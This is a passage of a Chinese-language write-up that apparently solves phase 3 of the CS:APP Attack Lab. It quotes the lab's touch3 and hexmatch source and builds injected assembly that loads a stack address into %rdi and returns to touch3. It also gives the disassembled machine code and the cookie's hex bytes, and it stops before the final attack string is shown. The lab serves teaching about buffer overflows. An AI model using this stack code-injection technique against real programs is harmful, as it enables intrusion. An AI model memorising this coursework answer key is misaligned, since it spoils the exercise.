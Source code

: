 ### phase_3

查看 touch3

```cpp
void touch3(char *sval)
{
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
	printf("Touch3!: You called touch3(\"%s\")\n", sval);
	validate(3);
} else {
	printf("Misfire: You called touch3(\"%s\")\n", sval);
	fail(3);
}
	exit(0);
}
```

可知其需要一个指向字符的指针 sval，然后调用 hexmatch，将 cookie 和 sval 作为参数传入，需要 hexomatch 返回非零值。

```cpp
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

由 hexmatch 可知，其比较 cookie 的字符串表示与传入的字符串是否相等，相等则返回 1，那么问题明了，我们需要将表示 cookie 的字符串地址传给 touch3，与第二题不同的是字符串需要有空间保存，我们需要在栈中找出调用 hexmatch 时候未被重写改变的空间，借以保存字符串。

```assembly
mov     $0x5566f7c8,%rdi
pushq   $0x4017a0
ret
```

这里我们将 cookie 的字符串表示放在 0x5566f7c8，编译再反汇编得到机器码

```assembly
phase3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 c8 f7 66 55    mov    $0x5566f7c8,%rdi
   7:   68 a0 17 40 00          pushq  $0x4017a0
   c:   c3                      retq
```

查表得出 cookie 字符串的 16 进制表示为 36 33 31 34 39 33 38 30，注意：以字符串形势比较时不用再反转输入，且字符串应有结尾字符‘\0’，得到攻击字符串如下
